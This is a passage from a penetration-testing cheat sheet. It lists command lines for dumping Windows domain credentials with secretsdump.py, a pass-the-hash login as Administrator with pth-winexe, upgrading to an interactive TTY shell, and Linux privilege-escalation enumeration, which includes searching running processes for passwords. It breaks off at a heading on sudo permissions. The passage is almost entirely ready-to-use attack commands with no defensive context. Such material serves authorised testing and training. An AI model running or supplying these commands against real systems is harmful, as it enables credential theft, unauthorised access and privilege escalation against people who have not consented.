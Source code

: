 ```bash
secretsdump.py <domain>/<user>:<password>@<IP>  
```

* * *

### Pass-the-Hash (PTH) Attack

#### **Using Pass-the-Hash with WinExe**

```bash
pth-winexe -U <domain>/Administrator%aad3b43XXXXXXXX35b51404ee:e0fb1fb857XXXXXXXX238cbe81fe //<IP> cmd.exe  
```

* * *

### Linux Privilege Escalation

#### **Spawning a TTY Shell**

```bash
python -c 'import pty; pty.spawn("/bin/bash")'  
/bin/bash -i  
```

#### **Finding Writable Directories**

```bash
find / -writable -type d 2>/dev/null  
```

#### **Checking Installed Packages (Potential Exploits)**

```bash
dpkg -l  # Debian-based  
rpm -qa  # Red Hat-based  
```

#### **Checking Mounted Drives & Filesystems**

```bash
cat /etc/fstab  
lsblk  
df -h  
```

#### **Checking Running Processes for Passwords**

```bash
watch -n 1 "ps aux | grep pass"  
```

* * *

### Sudo and SUID Exploitation

#### **Checking Sudo Permissions**
